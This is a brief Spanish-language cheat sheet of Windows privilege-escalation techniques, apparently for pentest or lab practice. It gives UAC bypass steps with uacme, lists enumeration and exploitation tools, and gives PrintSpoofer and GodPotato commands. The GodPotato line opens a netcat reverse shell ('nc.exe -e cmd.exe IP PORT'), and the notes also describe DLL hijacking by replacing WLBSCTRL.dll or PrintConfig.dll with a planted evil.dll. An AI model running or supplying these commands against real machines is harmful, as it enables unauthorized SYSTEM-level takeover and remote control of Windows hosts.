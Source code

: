 0.1º Probar
~~~~c
.\Win-Multi-UAC-Bypass.ps1
~~~~

1º Verificamos que el uac esta activo
Deberia aparecer: Mandatory Label\Medium Mandatory Level

2º Subir archivo uacme

3º Usar uacme con keys 23,33,34 y 70 con el path absoluto de la reverse shell

# Tools Recomendadas

## Enumeracion

1º winPEASany.exe
2º PowerUp
3º SharpUp
## Explotacion

### Windows Explot suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Varios
1º Psexec64.exe 

### Procesos no estandard
1º seatbelt

### Port Forwarding
1º plink.exe
2º Chisel

# Exploits 

[https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng "https://github.com/bitsadmin/wesng") 
# PrintsPoofer
~~~~c
PrintSpoofer.exe -i -c cmd.exe
~~~~

## God potato
1º Descargar el binario
2º ejecutar 
~~~~c
.\GodPotato.exe -cmd "nc.exe -e cmd.exe IP PORT"  
~~~~


LOCAL POTATO
Crear binario evil.dll y reemplazarlo por WLBSCTRL.dll
O PrintConfig.dll